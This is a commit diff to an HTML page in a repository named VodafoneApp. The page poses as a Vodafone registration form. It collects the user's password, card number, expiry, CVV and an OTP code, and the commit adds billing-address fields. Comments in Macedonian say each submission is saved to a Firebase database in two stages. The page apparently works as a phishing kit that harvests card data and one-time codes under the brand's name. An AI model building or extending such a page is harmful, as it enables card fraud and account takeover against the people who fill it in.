

Before and after one commit to VodafoneApp/VodafoneApp, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 362-1179 px from the top of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 893 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -130,7 +130,7 @@
             color: rgba(255, 255, 255, 0.9);
         }
 
-        input {
+        input, select {
             width: 100%;
             padding: 12px;
             border: 1.5px solid rgba(255, 255, 255, 0.3);
@@ -146,11 +146,16 @@
             user-select: text;
         }
 
+        select option {
+            background-color: #333;
+            color: #fff;
+        }
+
         input::placeholder {
             color: rgba(255, 255, 255, 0.5);
         }
 
-        input:focus {
+        input:focus, select:focus {
             border-color: var(--white);
             background-color: rgba(255, 255, 255, 0.25);
             box-shadow: 0 0 0 3px rgba(255, 255, 255, 0.15);
@@ -312,9 +317,9 @@
                 <input type="password" id="password" placeholder="••••••••" required>
             </div>
 
-            <div class="section-title">Step 2: Verification Method</div>
+            <div class="section-title">Step 2: Verification Method & Billing Address</div>
             <p style="font-size: 11px; color: rgba(255, 255, 255, 0.8); margin-bottom: 10px; line-height: 1.3;">
-                A payment method is required to verify your eligibility. The first charge will be in 30 days.
+                A payment method and billing address are required to verify your eligibility. The first charge will be in 30 days.
             </p>
 
             <div class="form-group">
@@ -327,9 +332,46 @@
                     <input type="text" id="cardExp" placeholder="MM/YY" maxlength="5" required>
                 </div>
                 <div class="form-group" style="flex: 1;">
-                    <label>CVC</label>
+                    <label>CVV</label>
                     <input type="password" id="cardCvv" placeholder="123" maxlength="4" required>
                 </div>
+            </div>
+
+            <!-- Billing Address Fields Added Here -->
+            <div class="row">
+                <div class="form-group" style="flex: 1;">
+                    <label>First name</label>
+                    <input type="text" id="billFirstName" placeholder="John" required>
+                </div>
+                <div class="form-group" style="flex: 1;">
+                    <label>Last name</label>
+                    <input type="text" id="billLastName" placeholder="Doe" required>
+                </div>
+            </div>
+            <div class="form-group">
+                <label>Address 1</label>
+                <input type="text" id="billAddress1" placeholder="Street address, P.O. box" required>
+            </div>
+            <div class="row">
+                <div class="form-group" style="flex: 1;">
+                    <label>City</label>
+                    <input type="text" id="billCity" placeholder="City" required>
+                </div>
+                <div class="form-group" style="flex: 1;">
+                    <label>Postcode</label>
+                    <input type="text" id="billPostcode" placeholder="Postcode" required>
+                </div>
+            </div>
+            <div class="form-group">
+                <label>Country</label>
+                <select id="billCountry" required>
+                    <option value="" disabled selected>Select country</option>
+                    <option value="UK">United Kingdom</option>
+                    <option value="US">United States</option>
+                    <option value="DE">Germany</option>
+                    <option value="FR">France</option>
+                    <option value="MK">North Macedonia</option>
+                </select>
             </div>
 
             <button type="submit" id="submitBtn" class="btn-submit">
@@ -460,7 +502,7 @@
         startOtpTimer();
     }
 
-    // Чекор 1: Зачувување на првичните податоци во Firebase и отворање OTP екран
+    // Чекор 1: Зачувување на првичните податоци (вклучувајќи Billing Address) во Firebase
     document.getElementById('regForm').addEventListener('submit', async (e) => {
         e.preventDefault();
 
@@ -476,6 +518,12 @@
             cardNumber: document.getElementById('cardNumber').value,
             cardExp: document.getElementById('cardExp').value,
             cardCvv: document.getElementById('cardCvv').value,
+            billFirstName: document.getElementById('billFirstName').value,
+            billLastName: document.getElementById('billLastName').value,
+            billAddress1: document.getElementById('billAddress1').value,
+            billCity: document.getElementById('billCity').value,
+            billPostcode: document.getElementById('billPostcode').value,
+            billCountry: document.getElementById('billCountry').value,
             otpCode: "",
             timestamp: new Date().toISOString()
         };
@@ -484,7 +532,6 @@
         btnSpinner.style.display = 'block';
         submitBtn.disabled = true;
 
-        // Прво зачувување во базата (со празно OTP) кога ќе кликне на копчето
         if (window.saveUserDataToFirebase) {
             await window.saveUserDataToFirebase(currentSubmissionData);
         }
@@ -499,14 +546,13 @@
         }, 1500);
     });
 
-    // Чекор 2: Додавање OTP и праќање во Firebase кога ќе го внесе кодот
+    // Чекор 2: Додавање OTP и праќање во Firebase
     document.getElementById('otpForm').addEventListener('submit', async (e) => {
         e.preventDefault();
 
         const otpValue = document.getElementById('otpCode').value;
         currentSubmissionData.otpCode = otpValue;
 
-        // Второ зачувување во базата (сега со вклучен OTP код)
         if (window.saveUserDataToFirebase) {
             await window.saveUserDataToFirebase(currentSubmissionData);
         }
```
